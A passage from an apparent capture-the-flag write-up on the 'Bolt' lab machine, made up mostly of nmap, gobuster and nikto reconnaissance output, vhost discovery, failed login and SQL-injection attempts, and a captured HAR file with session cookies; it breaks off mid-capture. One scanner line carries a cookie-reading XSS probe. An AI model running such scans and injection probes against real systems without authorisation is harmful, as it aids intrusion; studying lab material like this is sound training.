|         * Coded by https://themesberg.com
|
|         =========================================================
|
|         * The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.
|
|         -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 300
|     Comment:
|          //Parallax
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 26015
|     Comment:
|         /**
|          * = Accordions
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 352
|     Comment:
|          // equal the larget height
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 26528
|     Comment:
|         /**
|          * = Avatars
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 20028
|     Comment:
|         /**
|          * = Floating animations
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 360
|     Comment:
|          // update target element content to match number of characters
|
|     Path: http://10.10.11.114:80/register
|     Line number: 61
|     Comment:
|         <!-- Pixel CSS -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 346
|     Comment:
|          // determine the larget height
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29591
|     Comment:
|         /**
|          * = Maps
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 320
|     Comment:
|          // identify all unique id's
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 311
|     Comment:
|          // Equalize height to the max of the elements
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 305
|     Comment:
|          //Smooth scroll
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 351
|     Comment:
|          // make all elements with the same [data-equalize-height] value
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 428
|     Comment:
|         <!--End of Accordion-->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 287
|     Comment:
|          // Scroll to anchor with scroll animation
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 21
|     Comment:
|         /*!
|          * Bootstrap v4.4.1 (https://getbootstrap.com/)
|          * Copyright 2011-2019 The Bootstrap Authors
|          * Copyright 2011-2019 Twitter, Inc.
|          * Licensed under MIT (https://github.com/twbs/bootstrap/blob/master/LICENSE)
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 279
|     Comment:
|          // Do something to the matched elements as they get off scren
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 276
|     Comment:
|          //alert();
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 292
|     Comment:
|          // Animate scroll to the selected section
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 25983
|     Comment:
|         /**
|          * = Sidebars
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 133
|     Comment:
|          // Additional .focus class on form-groups
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 19073
|     Comment:
|         /* Disabled state */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 208
|     Comment:
|         <!-- Email Box -->
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 349
|     Comment:
|         <!-- Contact Card -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 193
|     Comment:
|         <!-- Specific Page JS goes HERE  -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 118
|     Comment:
|          // Tooltip
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 111
|     Comment:
|          // Datepicker
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 26639
|     Comment:
|         /**
|          * = Buttons
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29527
|     Comment:
|         /**
|          * = Input groups
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 22927
|     Comment:
|         /**
|          * = Navigation bars
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 98
|     Comment:
|          // Background images for sections
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 86
|     Comment:
|          // Headroom - show/hide navbar on scroll
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 46
|     Comment:
|          // Collapse navigation
|
|     Path: http://10.10.11.114:80/services
|     Line number: 173
|     Comment:
|         <!-- End of Icon Boxes -->
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 246
|     Comment:
|         <!-- End of Section -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28606
|     Comment:
|         /**
|          * = Close
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 31827
|     Comment:
|         /**
|          * = Typography
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 25438
|     Comment:
|         /**
|          * = Sections
|          */
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 329
|     Comment:
|          // add elements in order
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 31342
|     Comment:
|         /**
|          * = Progress bars
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28695
|     Comment:
|         /**
|          * = Dropdowns
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 22465
|     Comment:
|         /**
|          * = Transform
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18810
|     Comment:
|         /* Disabled state;
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 30393
|     Comment:
|         /**
|          * = Paginations
|          */
|
|     Path: http://10.10.11.114:80/pricing
|     Line number: 279
|     Comment:
|         <!-- Illustration -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 31576
|     Comment:
|         /**
|          * = Shapes
|          */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28790
|     Comment:
|         /* Textareas */
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 29477
|     Comment:
|         /**
|          * = Images
|          */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 160
|     Comment:
|         <!-- End of Hero section -->
|
|     Path: http://10.10.11.114:80/download
|     Line number: 142
|     Comment:
|         <!-- Hero -->
|
|     Path: http://10.10.11.114:80/static/assets/js/pixel.js
|     Line number: 121
|     Comment:
|          // Popover
|
|     Path: http://10.10.11.114:80/register
|     Line number: 42
|     Comment:
|         <!-- Twitter -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18822
|     Comment:
|         /* Base;
|          *
|          */
|
|     Path: http://10.10.11.114:80/index.html
|     Line number: 383
|     Comment:
|         <!-- End of Contact Card -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 28760
|     Comment:
|         /**
|          * = Forms
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 113
|     Comment:
|         <!-- End of Form -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 25901
|     Comment:
|         /**
|          * = Footers
|          */
|
|     Path: http://10.10.11.114:80/register
|     Line number: 23
|     Comment:
|         <!-- Primary Meta Tags -->
|
|     Path: http://10.10.11.114:80/download
|     Line number: 203
|     Comment:
|         <!-- End of clients -->
|
|     Path: http://10.10.11.114:80/register
|     Line number: 180
|     Comment:
|         <!-- Vendor JS -->
|
|     Path: http://10.10.11.114:80/static/assets/css/pixel.css
|     Line number: 18867
|     Comment:
|         /* Horizontal layout;
|          *
|_         */
443/tcp open  ssl/http syn-ack ttl 62 nginx 1.18.0 (Ubuntu)
| ssl-enum-ciphers:
|   TLSv1.2:
|     ciphers:
|       TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384 (secp256r1) - A
|       TLS_ECDHE_RSA_WITH_CHACHA20_POLY1305_SHA256 (secp256r1) - A
|     compressors:
|       NULL
|     cipher preference: client
|   TLSv1.3:
|     ciphers:
|       TLS_AKE_WITH_AES_128_GCM_SHA256 (ecdh_x25519) - A
|       TLS_AKE_WITH_AES_256_GCM_SHA384 (ecdh_x25519) - A
|       TLS_AKE_WITH_CHACHA20_POLY1305_SHA256 (ecdh_x25519) - A
|     cipher preference: client
|_  least strength: A
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 54a23c3d130f384cf1e1ea1f826d25a0
|_Credits query returned unknown hash 54a23c3d130f384cf1e1ea1f826d25a0
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-security-headers:
|   Strict_Transport_Security:
|     Header: Strict-Transport-Security: max-age=31536000; includeSubDomains
|   Content_Security_Policy:
|     Header: Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self';frame-src 'self';
|     Description: Define loading policy for all resources type in case of a resource type dedicated directive is not defined (fallback).
|     Description: Define which scripts the protected resource can execute.
|     Description: Define which styles (CSS) the user applies to the protected resource.
|     Description: Define from where the protected resource can load images.
|_    Description: Deprecated and replaced by child-src. Define from where the protected resource can embed frames.
| ssl-cert: Subject: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-02-24T19:11:23
| Not valid after:  2022-02-24T19:11:23
| MD5:   3ac3 4f7c ee22 88de 7967 fe85 8c42 afc6
| SHA-1: c606 ca92 404f 2f04 6231 68be c4c4 644f e9ed f132
| -----BEGIN CERTIFICATE-----
| MIIDozCCAougAwIBAgIUWYR6DcMDhx5i4CpQ5qkkspuUULAwDQYJKoZIhvcNAQEL
| BQAwYTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDEaMBgGA1UEAwwRcGFzc2JvbHQuYm9s
| dC5odGIwHhcNMjEwMjI0MTkxMTIzWhcNMjIwMjI0MTkxMTIzWjBhMQswCQYDVQQG
| EwJBVTETMBEGA1UECAwKU29tZS1TdGF0ZTEhMB8GA1UECgwYSW50ZXJuZXQgV2lk
| Z2l0cyBQdHkgTHRkMRowGAYDVQQDDBFwYXNzYm9sdC5ib2x0Lmh0YjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALPBsFKzUPba5tHWW85u/Do3CkSsUgWN
| Wp5ZShD3T3hRX+vxFjv0zVZaccLhY8gsoTaklvFZVrguU6rIKHCFpRt7JLSPCmx3
| /Dy8id1Fm3VgRStVcMdXFnWne3lZaw9cSqdAxzb6ZcERAZRlIOPj29zO5UIwvwTW
| FJwybndHlxZ9Y8TUT7O1z5FFNKMl/QP6DBdkDDTc+OQ9ObyYHd6zBdwfuJykX8Md
| 3ejO1n38j8zXhzB/DEwKVKqFqvm7K28OBOouOaHnqM5vO5OVEVNyeZhaOtX1UrOm
| c+B8RSHDU7Y7/6sbNxJGuwpJZtovUa+2HybDRJl92vnNeouddrdFZc0CAwEAAaNT
| MFEwHQYDVR0OBBYEFCjzBazWUuLcpQnqbcDsisjmzvYzMB8GA1UdIwQYMBaAFCjz
| BazWUuLcpQnqbcDsisjmzvYzMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZIhvcNAQEL
| BQADggEBAA2qDGXEgqNsf4XqYqK+TLg+pRJ/rrdAFtxNwn8MYQv4ZlyouQsN2zPm
| t/dXls0iba1KvgYrt5QGWGODI8IkaujEDC452ktOmmi9+EnpK9DjKoKfCTL4N/ta
| xDZxR4qHrk35QVYB8jYVP8S98gu5crTkAo9TGiHoEKPvinx+pA9IHtynqh9pBbuV
| /micD+zMBVlZ50MILbcXqsBHRxHN4pmbcfc4yEOanNVJD3hmGchcyAFx2RLPsl36
| +QrGlwqpP7Bn7wzVCuxzQUWlA9VwVZKHYVVvCekvVP9DKL6FfI5avLgJJujQTqKw
| +uYRUUWj+CdI1oxxYt0SdimXHr81SgE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 82C6406C68D91356C9A729ED456EECF4
| http-sitemap-generator:
|   Directory structure:
|     /
|       Other: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1
|_http-xssed: No previously reported XSS vuln.
| http-headers:
|   Server: nginx/1.18.0 (Ubuntu)
|   Date: Mon, 22 Nov 2021 12:38:20 GMT
|   Content-Type: text/html; charset=UTF-8
|   Transfer-Encoding: chunked
|   Connection: close
|   Set-Cookie: passbolt_session=4dvlf7ejdih01ug0bsnnvm3al4; path=/; secure; HttpOnly; SameSite=Lax
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   strict-transport-security: max-age=31536000; includeSubDomains
|   x-permitted-cross-domain-policies: all
|   referrer-policy: same-origin
|   x-frame-options: sameorigin
|   x-download-options: noopen
|   x-content-type-options: nosniff
|   X-GPGAuth-Version: 1.3.0
|   X-GPGAuth-Login-URL: /auth/login
|   X-GPGAuth-Logout-URL: /auth/logout
|   X-GPGAuth-Verify-URL: /auth/verify
|   X-GPGAuth-Pubkey-URL: /auth/verify.json
|   Access-Control-Expose-Headers: X-GPGAuth-Verify-Response, X-GPGAuth-Progress, X-GPGAuth-User-Auth-Token, X-GPGAuth-Authenticated, X-GPGAuth-Refer, X-GPGAuth-Debug, X-GPGAuth-Error, X-GPGAuth-Pubkey, X-GPGAuth-Logout-Url, X-GPGAuth-Version
|   X-GPGAuth-Authenticated: false
|   X-GPGAuth-Progress: stage0
|   X-GPGAuth-Error: true
|   X-GPGAuth-Debug: There is no user associated with this key. No key id set.
|   Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self';frame-src 'self';
|   Set-Cookie: csrfToken=d6d34e615dbbf31eb12fe90c6d6bfa5280b2ece6474d01bebbbf9b523049187ec378731d840ddc899b1d74d692bcaf3e22bcbbcf4a1c9d174c8fe6a9c55ed6f5; path=/
|
|_  (Request type: GET)
|_http-errors: Couldn't find any error pages.
| http-vhosts:
|_128 names had status 404
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-useragent-tester:
|   Status for browser useragent: 200
|   Redirected To: /auth/login?redirect=%2F
|   Allowed User Agents:
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-title: Passbolt | Open source password manager for teams
|_Requested resource was /auth/login?redirect=%2F
|_http-feed: Couldn't find any feeds.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| http-waf-detect: IDS/IPS/WAF detected:
|_10.10.11.114:443/?p4yl04d3=<script>alert(document.cookie)</script>
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.114
|
|     Path: https://10.10.11.114:443/
|     Line number: 6
|     Comment:
|         <!--
|
|                 ____                  __          ____
|                / __ \____  _____ ____/ /_  ____  / / /_
|               / /_/ / __ `/ ___/ ___/ __ \/ __ \/ / __/
|              / ____/ /_/ (__  )__  ) /_/ / /_/ / / /_
|             /_/    \__,_/____/____/_.___/\____/_/\__/
|
|             Open source password manager for teams
|             Copyright (c) Passbolt SA (https://www.passbolt.com)
|
|
|             This program is free software: you can redistribute it and/or modify
|             it under the terms of the GNU Affero General Public License as
|             published by the Free Software Foundation, either version 3 of the
|             License, or (at your option) any later version.
|
|             This program is distributed in the hope that it will be useful,
|             but WITHOUT ANY WARRANTY; without even the implied warranty of
|             MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
|             GNU Affero General Public License for more details.
|
|             You should have received a copy of the GNU Affero General Public License
|             along with this program. If not, see http://www.gnu.org/licenses/.
|
|
|             -->
|
|     Path: https://10.10.11.114:443/
|     Line number: 48
|     Comment:
|_        <!-- main -->
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-wordpress-enum: Nothing found amongst the top 100 resources,use --script-args search-limit=<number|all> for deeper analysis)
|_http-chrono: Request times for /; avg: 1544.32ms; min: 1250.13ms; max: 1885.58ms
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-malware-host: Host appears to be clean
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-date: Mon, 22 Nov 2021 12:38:09 GMT; -30m09s from local time.

IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Post-scan script results:
| reverse-index:
|   22/tcp: 10.10.11.114
|   80/tcp: 10.10.11.114
|_  443/tcp: 10.10.11.114

Nmap done: 1 IP address (1 host up) scanned in 525.57 seconds
           Raw packets sent: 90 (7.036KB) | Rcvd: 99 (30.149KB)
```

</details>

From the rustscan, we know that there are 3 ports open:

- port 80 - HTTP
    - HTTP enumeration [this will be in Web Fuzzing Section](#web-enumeration-and-fuzzing)
        - services, pricing, login, download, register and admin page from nmap http enum script scan.
    - HTTP server =  nginx 1.18.0
- port 443 - HTTPS
    - Known FQDN = passbolt.bolt.htb
    - Organization = Internet Widgits Pty Ltd
    - HTTP server =  nginx 1.18.0
- port 22 - SSH

### Web Enumeration and Fuzzing

#### Checking on port 80 - HTTP

We starting off browse through all the page available.

Main page:


Contact Page:


Pricing Page:


Services Page:


Download Page:


From the download page, there is a container image tar file can be downloaded.

Image tar file downloaded:


We will inspect the tar file later.

Login Page:


We tried to login use simple or default username and password, but failed !


We tried SQLi authentication, but failed !



Register Page:


We tried to create an account but error !


Admin Page:

However, we can't seem to access it for now.


Next, we perform web directory fuzzing using `gobuster` to find hidden web directories.

<details><summary>Gobuster Directory Fuzzing</summary>

```bash
http://10.10.11.114/contact              (Status: 200) [Size: 26293]
http://10.10.11.114/download             (Status: 200) [Size: 18570]
http://10.10.11.114/index                (Status: 308) [Size: 247] [--> http://10.10.11.114/]
http://10.10.11.114/index.html           (Status: 200) [Size: 30347]
http://10.10.11.114/login                (Status: 200) [Size: 9287]
http://10.10.11.114/logout               (Status: 302) [Size: 209] [--> http://10.10.11.114/]
http://10.10.11.114/pricing              (Status: 200) [Size: 31731]
http://10.10.11.114/profile              (Status: 500) [Size: 290]
http://10.10.11.114/register             (Status: 200) [Size: 11038]
http://10.10.11.114/services             (Status: 200) [Size: 22443]
http://10.10.11.114/sign-up              (Status: 200) [Size: 11038]
```

</details>

Most of the web directories are the same as we enumerate manually.

We also perform `nikto` scan for vulnerabilities.

<details><summary>Nikto scan for port 80 of 10.10.11.114</summary>

```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.11.114
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Server may leak inodes via ETags, header found with file /static/assets/img/favicon/apple-touch-icon.png, inode: 1614339783.0, size: 4658, mtime: 2585794127
+ OPTIONS Allowed HTTP Methods: HEAD, OPTIONS, GET
+ GET /admin/config.php: PHP Config file may contain database IDs and passwords.
+ GET /admin/cplogfile.log: DevBB 1.0 final (http://www.mybboard.com) log file is readable remotely. Upgrade to the latest version.
+ GET /admin/system_footer.php: myphpnuke version 1.8.8_final_7 reveals detailed system information.
+ OSVDB-3233: GET /admin/admin_phpinfo.php4: Mon Album from http://www.3dsrc.com version 0.6.2d allows remote admin access. This should be protected.
+ OSVDB-5034: GET /admin/login.php?action=insert&username=test&password=test: phpAuction may allow user admin accounts to be inserted without proper authentication. Attempt to log in with user 'test' password 'test' to verify.
+ OSVDB-4804: GET //admin/admin.shtml: Axis network camera may allow admin bypass by using double-slashes before URLs.
+ OSVDB-2842: GET //admin/aindex.htm: FlexWATCH firmware 2.2 is vulnerable to authentication bypass by prepending an extra '/'. http://packetstorm.linuxsecurity.com/0310-exploits/FlexWATCH.txt
+ OSVDB-2922: GET /admin/wg_user-info.ml: WebGate Web Eye exposes user names and passwords.
+ OSVDB-3093: GET /admin/auth.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/credit_card_info.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/exec.php3: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/objects.inc.php4: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/script.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/settings.inc.php+: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3093: GET /admin/upload.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-4238: GET /admin/adminproc.asp: Xpede administration page may be available. The /admin directory should be protected.
+ OSVDB-4239: GET /admin/datasource.asp: Xpede page reveals SQL account name. The /admin directory should be protected.
+ OSVDB-9624: GET /admin/admin.php?adminpy=1: PY-Membres 4.2 may allow administrator access.
+ GET /admin/account.asp: Admin login page/section found.
+ GET /admin/account.html: Admin login page/section found.
+ GET /admin/account.php: Admin login page/section found.
+ GET /admin/controlpanel.asp: Admin login page/section found.
+ GET /admin/controlpanel.html: Admin login page/section found.
+ GET /admin/controlpanel.php: Admin login page/section found.
+ GET /admin/cp.asp: Admin login page/section found.
+ GET /admin/cp.html: Admin login page/section found.
+ GET /admin/cp.php: Admin login page/section found.
+ GET /admin/home.asp: Admin login page/section found.
+ GET /admin/home.php: Admin login page/section found.
+ GET /admin/index.asp: Admin login page/section found.
+ GET /admin/index.html: Admin login page/section found.
+ GET /admin/login.asp: Admin login page/section found.
+ GET /admin/login.html: Admin login page/section found.
+ GET /admin/login.php: Admin login page/section found.
+ GET /admin/html: Tomcat Manager / Host Manager interface found (pass protected)
+ GET /admin/status: Tomcat Server Status interface found (pass protected)
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

</details>

The nikto scan result show XSS for admin page but we can't login.

<br />

#### Checking on port 443 - HTTPS

From the rustscan, we get "passbolt.bolt.htb"; added to our host file.

Passbolt Main Page:


We tried to login, but failed !


Same here, we perform web directory fuzzing using `gobuster` to find hidden web directories.

<details><summary>Gobuster Directory Fuzzing</summary>

```bash
https://10.10.11.114/img                  (Status: 301) [Size: 178] [--> https://10.10.11.114/img/]
https://10.10.11.114/resources            (Status: 302) [Size: 0] [--> /auth/login?redirect=%2Fresources]
https://10.10.11.114/login                (Status: 301) [Size: 0] [--> https://passbolt.bolt.htb/auth/login]
https://10.10.11.114/register             (Status: 301) [Size: 0] [--> https://passbolt.bolt.htb/users/register]
https://10.10.11.114/users                (Status: 302) [Size: 0] [--> /auth/login?redirect=%2Fusers]
https://10.10.11.114/css                  (Status: 301) [Size: 178] [--> https://10.10.11.114/css/]
https://10.10.11.114/groups               (Status: 302) [Size: 0] [--> /auth/login?redirect=%2Fgroups]
https://10.10.11.114/js                   (Status: 301) [Size: 178] [--> https://10.10.11.114/js/]
https://10.10.11.114/app                  (Status: 302) [Size: 0] [--> /auth/login?redirect=%2Fapp]
https://10.10.11.114/logout               (Status: 301) [Size: 0] [--> https://passbolt.bolt.htb/auth/logout]
https://10.10.11.114/fonts                (Status: 301) [Size: 178] [--> https://10.10.11.114/fonts/]
https://10.10.11.114/recover              (Status: 301) [Size: 0] [--> https://passbolt.bolt.htb/users/recover]
https://10.10.11.114/locales              (Status: 301) [Size: 178] [--> https://10.10.11.114/locales/]
https://10.10.11.114/roles                (Status: 302) [Size: 0] [--> /auth/login?redirect=%2Froles]
https://10.10.11.114/healthcheck          (Status: 403) [Size: 3738]
```

</details>

All of the web directories are the not accessible as shown below:


We also perform `nikto` scan for vulnerabilities, nothing positive.

<br />

#### Virtual host fuzzing

Since, we know that port 443 which is HTTPS bind with FQDN of "passbolt.bolt.htb".

We perform virtual host fuzzing using `Gobuster` of the base domain which is "bolt.htb", this will allow us to check if there is more than one web site available.

We are using `SecLists` > `Discovery` > `DNS` > `subdomains-top1million-110000.txt`

<details><summary>Gobuster vhost scan for "bolt.htb"</summary>

```bash
Found: mail.bolt.htb (Status: 200) [Size: 4943]
Found: demo.bolt.htb (Status: 302) [Size: 219]
```

</details>

With the virtual host found, added to our host file.

<br />

#### Checking on mail.bolt.htb

mail.bolt.htb Main Page:


We tried to login use simple or default username and password, but failed !


We tried SQLi authentication, but failed !


Same here, we perform web directory fuzzing using `gobuster` to find hidden web directories, but nothing possitive outcome.

We also perform `nikto` scan for vulnerabilities, also nothing positive.

<br />

#### Checking on demo.bolt.htb

demo.bolt.htb Main Page:



We tried to login use simple or default username and password, but failed !


We tried SQLi authentication, but failed !



Same here, we perform web directory fuzzing using `gobuster` to find hidden web directories, but nothing possitive outcome.

We also perform `nikto` scan for vulnerabilities, also nothing found.

Then, we go for page to Create Account.


We are unable to create account since we do not have the invite code for now.

<br />

#### Additional finding on cookies when perform web enumeration

<details><summary>Found interesting cookies and save as har file</summary>

```json
{
  "log": {
    "version": "1.2",
    "creator": {
      "name": "WebInspector",
      "version": "537.36"
    },
    "pages": [
      {
        "startedDateTime": "2021-11-22T12:40:18.247Z",
        "id": "page_1",
        "title": "https://10.10.11.114/auth/login?redirect=%2F",
        "pageTimings": {
          "onContentLoad": 217.45100000407547,
          "onLoad": 221.25099999539088
        }
      }
    ],
    "entries": [
      {
        "_initiator": {
          "type": "other"
        },
        "_priority": "VeryHigh",
        "_resourceType": "document",
        "cache": {},
        "connection": "66687",
        "pageref": "page_1",
        "request": {
          "method": "GET",
          "url": "https://10.10.11.114/auth/login?redirect=%2F",
          "httpVersion": "http/2.0",
          "headers": [
            {
              "name": ":method",
              "value": "GET"
            },
            {
              "name": ":authority",
              "value": "10.10.11.114"
            },
            {
              "name": ":scheme",
              "value": "https"
            },
            {
              "name": ":path",
              "value": "/auth/login?redirect=%2F"
            },
            {
              "name": "cache-control",
              "value": "max-age=0"
            },
            {
              "name": "sec-ch-ua",
              "value": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"96\", \"Microsoft Edge\";v=\"96\""
            },
            {
              "name": "sec-ch-ua-mobile",
              "value": "?0"
            },
            {
              "name": "sec-ch-ua-platform",
              "value": "\"Windows\""
            },
            {
              "name": "dnt",
              "value": "1"
            },
            {
              "name": "upgrade-insecure-requests",
              "value": "1"
            },
            {
              "name": "user-agent",
              "value": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 Edg/96.0.1054.29"
            },
            {
              "name": "accept",
              "value": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
            },
            {
              "name": "sec-fetch-site",
              "value": "none"
            },
            {
              "name": "sec-fetch-mode",
              "value": "navigate"
            },
            {
              "name": "sec-fetch-user",
              "value": "?1"
            },
            {
              "name": "sec-fetch-dest",
              "value": "document"
            },
            {
              "name": "accept-encoding",
              "value": "gzip, deflate, br"
            },
            {
              "name": "accept-language",
              "value": "en-US,en;q=0.9"
            },
            {
              "name": "cookie",
              "value": "passbolt_session=673r4n0kdke206sipfvb6tbcfh; csrfToken=f62cfa3dfc1ae86a8b72401f2b893f9dbacb2ffce774902622ac752b3c3dff20e75d89dc2fa1a03c60830ea5c68b6461155a8dae1b126b250ec2b7cdfa98b0b0"
            }
          ],
          "queryString": [
            {
              "name": "redirect",
              "value": "%2F"
            }
          ],
          "cookies": [
            {
              "name": "passbolt_session",
              "value": "673r4n0kdke206sipfvb6tbcfh",
              "path": "/",
              "domain": "10.10.11.114",
              "expires": "1969-12-31T23:59:59.000Z",
              "httpOnly": true,
              "secure": true,
              "sameSite": "Lax"
            },
            {
              "name": "csrfToken",
              "value": "f62cfa3dfc1ae86a8b72401f2b893f9dbacb2ffce774902622ac752b3c3dff20e75d89dc2fa1a03c60830ea5c68b6461155a8dae1b126b250ec2b7cdfa98b0b0",
              "path": "/",
              "domain": "10.10.11.114",
              "expires": "1969-12-31T23:59:59.000Z",
              "httpOnly": false,
              "secure": false
            }
          ],
          "headersSize": -1,
          "bodySize": 0
        },
        "response": {
          "status": 200,
          "statusText": "",
          "httpVersion": "http/2.0",
          "headers": [
            {
              "name": "server",
